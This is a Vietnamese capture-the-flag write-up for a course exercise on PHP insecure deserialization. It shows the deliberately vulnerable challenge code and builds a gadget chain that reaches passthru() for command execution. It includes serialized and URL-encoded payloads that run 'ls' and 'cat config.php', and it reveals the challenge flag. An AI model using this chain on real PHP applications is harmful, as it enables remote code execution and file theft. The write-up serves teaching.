 # Nhóm bài tập CTF ✔
- **Insecure Deserialization**:<br>
- **Note:** Bài tập CTF của môn Lập trình an toàn và khai thác lổ hổng phần mềm<br>
- **Team:** Blackberries<br>
- **Link:** http://45.122.249.68:10001/

## Write Up:<br>
- Vào link, ta thấy một đoạn code PHP. 
```
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```
- Ta thấy có 3 class chính `User`, `Show_color` và `do_nothing`<br>
- Xem đoạn thực thi code:
```
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```
Ta hiểu đoạn code trên sẽ lấy biến `code` trong URL thông qua hàm `$_GET[]` và `unserialize` biến `code` đó. Trong trường hợp biến `code` chưa có giá trị thì in ra đoạn code PHP như trên - `highlight_file(__FILE__);`. Đồng thời có sự xuất hiện của hai hàm `__construct()` và `__destruct()` nên thuận lợi cho việc deserialization. Vì thao tác `unserialize` không hề có verify input nên chúng ta có thể tận dụng lổ hổng này để khai thác.
- Ta để ý thấy `User` class có vẻ đặc biệt khi có biến `admin=false`và khi `admin=true` thì có in ra dòng chữ `"hi admin, here is your flag"`. Vậy ta sẽ serialize `User` object.
```
$a = new User('name');
$b = serialize($a);
echo $b;
```
Ta được: `O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:0;}`.
Chỉnh sửa giá trị `admin` thành `true`. Thay `b:0` thành `b:1`. Gửi giá trị biến code lên trang: 
http://45.122.249.68:10001?code=O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:1;}
Ta chỉ thấy một trang rỗng. Vậy là hướng này không đúng.
- Xét 2 class tiếp theo ta thấy có vẻ thuận lợi hơn vì ở class `Show_color` có thực hiện hàm `call_user_func()`. Có vẻ đây mới là hướng đúng vì hàm này sẽ thực thi lệnh với tham số thứ nhất là tên hàm và các tham số sau là tham số đầu vào cho hàm. Xem thêm thông tin [Tại đây](https://www.php.net/manual/en/function.call-user-func). Vậy ta sẽ xem xét một số hàm **execute shell** trong PHP: `exec()`, `shell_exec()`, `system()`, `passthru()`. Trong đó hàm `system()` và `passthru()` là thuận tiện nhất vì không cần đòi hỏi thêm thao tác nào.
-  Tiếp theo là ta xem xét cách để đưa hàm **excute shell** vào phương thức. 
```
public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
```
- Theo ý tưởng ban đầu, ta sẽ sử dụng hàm `passthru()` làm tham số thứ nhất và lệnh `ls` làm tham số thứ 2. Nhưng vấn đề ở đây là với tham số thứ 2 mình có thể truyền `ls` vào biến `$color` thông qua **constructor** nhưng không thể đưa `passthru` vào biến thứ nhất vì nó truy vấn 2 lần `$this->type->adu`, vậy mình phải làm sao đó để `$this-type` là một object và sau đó lấy `adu` trong chính object đó.
- Nhìn vào class `do_nothing`, ta thấy có một phương thức `__get()`. Đây là một trong [Magic Method](https://www.php.net/manual/en/language.oop5.magic.php) để override các hàm mặc định được định nghĩa bởi PHP. `__get()` nhận tham số đầu vào có thể là một member hoặc một method. Trong đoạn code, phương thức `__get()` thực hiện trả về giá trị   `this ->i_use_this` khi kiểm tra `this->why` khác rỗng hay không. 
### Solution:
- Khỏi tạo đối tượng  `do_nothing` với hai giá trị đầu vào là `123` và `passthru`. (Giá trị đầu là tùy ý)
- Khỏi tạo đối tượng `Show_color` với hai giá trị đầu vào là **do_nothing object** ở trên và lệnh muốn thực thi `ls`. 
- Sau đó `serialize` đối tượng  `Show_color`
**Sample**:
```
$a = new do_nothing(123,"passthru");
$b = new Show_color($a,"ls");
$code = serialize($b);
echo $code;
```
Kết quả:
`O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}`
- Đưa vào biến `code` làm payload<br>

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138675519-6fc911d4-823a-405a-b6f8-a74da4e05dec.png">
</p>

- Ta thấy ở trên có 2 file. Vậy là đã thành công, vấn đề logic ở đây là khi thực hiện  `call_user_func($this->type->adu,$this->color);`. `$this->type` ở đây sẽ thành biến `$a`
, sau đó mình hình dung là `call_user_func($a->adu,$this->color);`. Quá trình `$a->adu` sẽ được thực hiện trong phương thức `__get($method)` đã được định nghĩa trước. Và `$method` ở đây là `adu`, mà cái này hầu như không có giá trị vì biến `$this->why` mình đã set khác **null** để **block** phía trong thực thi `return $this->i_use_this;` và tương đương `return passthru($command)` với **$command** là mình đã khởi tạo cho Object.
- Sau đó,  ta sẽ thử đọc file `config.php` trước. Chỉnh lệnh `ls` thành `cat config.php` và thực hiện lại quá trình **serialize** theo các bước trên.
Payload: O:10:"Show_color":2:{s:5:"color";s:13:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138678027-6bf37d9f-08e8-4fc4-a663-242a7e406030.png">
</p>

Dường như không có tác dụng, ta mới để ý một chuyện là ta thao tác trên URL nên bị ảnh hưởng bởi **URL Encode**. Nên ở chỗ `cat index.php` có khoảng trắng là ký tự đặc biệt bị ảnh hưởng. Để cho chắc, ta sẽ encode cả payload.

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138679801-71a74d2a-a376-478c-a92f-29e0da356e67.png">
</p>

**Final Payload**: %4f%3a%31%30%3a%22%53%68%6f%77%5f%63%6f%6c%6f%72%22%3a%32%3a%7b%73%3a%35%3a%22%63%6f%6c%6f%72%22%3b%73%3a%31%34%3a%22%63%61%74%20%63%6f%6e%66%69%67%2e%70%68%70%22%3b%73%3a%34%3a%22%74%79%70%65%22%3b%4f%3a%31%30%3a%22%64%6f%5f%6e%6f%74%68%69%6e%67%22%3a%32%3a%7b%73%3a%33%3a%22%77%68%79%22%3b%69%3a%31%32%33%3b%73%3a%31%30%3a%22%69%5f%75%73%65%5f%74%68%69%73%22%3b%73%3a%38%3a%22%70%61%73%73%74%68%72%75%22%3b%7d%7d
- Xuất hiện trang rỗng, vô source code để kiểm tra.
```
<?php
$flag = "flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}";
?>
```
**=>flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**
